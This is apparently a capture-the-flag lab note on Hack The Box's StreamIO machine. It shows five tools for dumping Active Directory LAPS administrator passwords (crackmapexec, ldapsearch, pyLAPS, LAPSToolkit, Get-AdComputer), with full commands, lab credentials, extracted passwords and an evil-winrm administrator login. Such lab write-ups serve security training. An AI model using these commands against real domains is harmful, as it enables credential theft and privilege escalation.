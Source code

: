 ```cmd
```

##### Read LAPS Password with 5 different ways if creds need
If user alredy in the group then no cred needed just read it * https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps

1. cme
2. ldapsearch
3. pyLAPS.py
4. LAPSToolkit.ps1  <- One thing for the windows way is that may require another session after the powerview
5. Get-AdComputer   <- It got conflicts otherwise 

```bash
crackmapexec smb streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r --laps --ntds
SMB         watch.streamIO.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         watch.streamIO.htb 445    DC               [-] DC\administrator:@[C21{#FZVH,n! STATUS_LOGON_FAILURE

ldapsearch -x -H ldap://$IP -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd | grep ms-MCS-AdmPwd -n5
1-# extended LDIF
2-#
3-# LDAPv3
4-# base <DC=streamIO,DC=htb> with scope subtree
5:# filter: (ms-MCS-AdmPwd=*)
6:# requesting: ms-MCS-AdmPwd 
7-#
8-
9-# DC, Domain Controllers, streamIO.htb
10-dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
11-ms-Mcs-AdmPwd: @[C21{#FZVH,n!

python pyLAPS.py --action get -u 'JDgodd' -d 'streamio.htb' -p 'JDg0dd1s@d0p3cr3@t0r' --dc-ip $IP
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC$                  : @[C21{#FZVH,n!

evil-winrm -i $IP -u administrator -p '@[C21{#FZVH,n!'
  ```

```cmd
*Evil-WinRM* PS C:\Users\nikk37\Documents> . .\LAPSToolkit.ps1
*Evil-WinRM* PS C:\Users\nikk37\Documents> Get-LAPSComputers -Credential $Cred1

ComputerName    Password       Expiration
------------    --------       ----------
DC.streamIO.htb e4k&b1a#k5.t7P 12/05/2023 22:35:24


*Evil-WinRM* PS C:\Users\nikk37\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $Cred1


DistinguishedName : CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
DNSHostName       : DC.streamIO.htb
Enabled           : True
```